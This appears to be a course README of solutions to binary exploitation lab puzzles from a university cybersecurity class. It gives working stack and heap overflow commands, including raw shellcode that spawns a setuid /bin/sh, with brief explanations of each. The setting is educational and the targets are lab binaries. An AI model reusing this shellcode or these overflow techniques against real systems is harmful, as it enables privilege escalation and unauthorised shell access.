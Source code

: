 # Emory Fall 2019: CS453: Cybersecurity

The labs are on platform.adversary.io. They consisted of binary bombs, web exploit exercises, and binary exploits.
This folder only contains the binary exploit puzzles and their solutions.

## Overflow 1

Solution:  
./overflow aaaabbbbccccdddd$(perl -e 'print "\x48\x43\x4b\x52"')  
Pretty standard overflow: just had to input the location for secret after filling up the buffer.


## Overflow 2

Solution:  
./overflow2 $(perl -e 'print "\x90" x (256-40)')$(perl -e 'print "\xeb\x18\x5b\xb8\xf5\xff\xff\xff\xf7\xd8\x31\xd2\x88\x53\x07\x89\x5b\x08\x89\x53\x0c\x8d\x4b\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x43\x43" ')AAAAAAAAAAAA$(perl -e 'print "\xe8\xd4\xff\xff"')  
The idea is to fill up the buffer, leaving 40 bytes of room for the shellcode. Then, overwrite the ebp, and return into the buffer. Some extra padding was used for stack alignment. 

## Chained Overflow
Solution:  
echo $(perl -e 'printf "\x11" x 4')$(perl -e 'print "\x90" x 3812')$(perl -e 'print "\x90" x (256-55)')$(printf "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xeb\x18\x5b\xb8\xf5\xff\xff\xff\xf7\xd8\x31\xd2\x88\x53\x07\x89\x5b\x08\x89\x53\x0c\x8d\x4b\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x43\x45")$(printf "\x97\x6c\x6c\xe8\xd4\xff\xff") > temp.hex  
cat temp.hex - | ./overflow RUSHKEKEKE$(perl -e 'printf "\x2e"x9')$(printf "\x34\xa9\x87\x04\x08")
This was a tedious one.  
- Step 1: Bypass the first comparison by filling it with hex characters such that the first 10 characters spell RUSHKEKEKE and the sum of the hex representation of RUSHKEKEKE and the subsequent 14 characters divide 256. 
- Step 2: Edit the shellcode so that it runs setuid (getuid, getuid), otherwise the shell won't spawn with privileges (I realized this in hindsight after spawning a useless shell).
- Step 3: The size of the buffer is not show in the code, so I had to use gdb to find the size of the buffer which turned out to be 4068. Fill the buffer with the shellcode and some extra padding to also make sure that the sum of the hex characters in the buffer is divisible by 256. 
- Step 4: Hold the door open by piping in the shellcode + nopsled with '-' so that the keyboard remains interactive and end of input is not reached. If end of input is reached, shell instantly closes. 

## Heap Overflow 1
./heap-arbitrary-overwrite $(perl -e 'printf "A" x 40')$(printf "\x9c\xcf\x0e\x08") $(perl -e 'printf "\x44\x33\x22\x11"')$(perl -e 'printf"B" x 32')

## Heap Overflow 2

